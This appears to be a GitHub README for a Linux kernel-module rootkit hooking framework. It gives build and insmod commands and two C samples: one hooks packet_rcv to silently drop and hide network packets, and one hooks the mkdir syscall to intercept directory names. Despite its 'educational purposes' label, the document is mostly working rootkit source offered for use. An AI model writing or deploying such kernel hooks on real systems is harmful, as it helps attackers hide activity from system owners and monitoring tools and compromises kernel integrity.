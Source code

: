 # LKM Hijacking Framework (under construction)

### For Educational Purposes Only!!!

- a small framework made for shortening the process of hooking functions and syscalls in linux kernel module rootkits on linux kernel 5.7+

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```

### example for hiding packets (hooking packet_rcv):

a code sample from src/packet_hide.c:
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! packet_rcv");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```

### live example:
![Live_example](live_example.gif)

### example for hooking mkdir syscall (source: https://github.com/xcellerator/linux_kernel_hacking/blob/1ce0db23318d73a19e046a36da731e43c42faf41/3_RootkitTechniques/3.1_syscall_hooking/rootkit.c):

a code sample from src/open_hook.c:
```c
#include "syscall_hooking.h"

struct hooked_syscall nr_open;

typedef asmlinkage long (*orig_mkdir_t)(const struct pt_regs *);
orig_mkdir_t orig_mkdir;

asmlinkage int hook_mkdir(const struct pt_regs *regs)
{
    char __user *pathname = (char *)regs->di;
    char dir_name[NAME_MAX] = {0};

    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);

    if (error > 0)
        printk(KERN_INFO "rootkit: Trying to create directory with name: %s\n", dir_name);

    orig_mkdir(regs);
    return 0;
}

int init_open_hook (void){

	nr_open.syscall = __NR_mkdir;
	nr_open.fake_syscall = &hook_mkdir;

	orig_mkdir = (orig_mkdir_t)hook_syscall(&nr_open);
	return 1;
}

int exit_open_hook (void){

	reset_syscall(&nr_open);
	return 1;
}
```

### live example:
![Live_example](live_example2.gif)

